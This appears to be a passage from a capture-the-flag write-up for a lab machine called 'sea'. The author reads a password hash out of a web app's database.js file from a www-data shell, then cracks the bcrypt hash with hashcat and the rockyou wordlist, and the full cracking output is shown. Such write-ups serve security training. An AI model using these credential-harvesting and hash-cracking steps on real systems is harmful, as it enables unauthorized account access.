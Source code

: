 ```console
www-data@sea:/var/www/sea/data$ cat database.js | grep password
cat database.js | grep password"password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
```
Use chatGPT to check and find out it is bcrypt. You can use cat to blast:

```console
└─$ echo -n '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q' > hash.txt

┌──(kazma㉿kali)-[~]
└─$ hashcat -m 3200 -a 0 -o output.txt hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-12th Gen Intel(R) Core(TM) i5-12400, 2918/5901 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec


Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM...DnXm4q
Time.Started.....: Thu Aug 15 14:53:15 2024 (20 secs)
Time.Estimated...: Thu Aug 15 14:53:35 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      151 H/s (6.55ms) @ Accel:8 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3072/14344385 (0.02%)
Rejected.........: 0/3072 (0.00%)
Restore.Point....: 3008/14344385 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1008-1024
Candidate.Engine.: Device Generator
Candidates.#1....: blessing -> dangerous
.....
```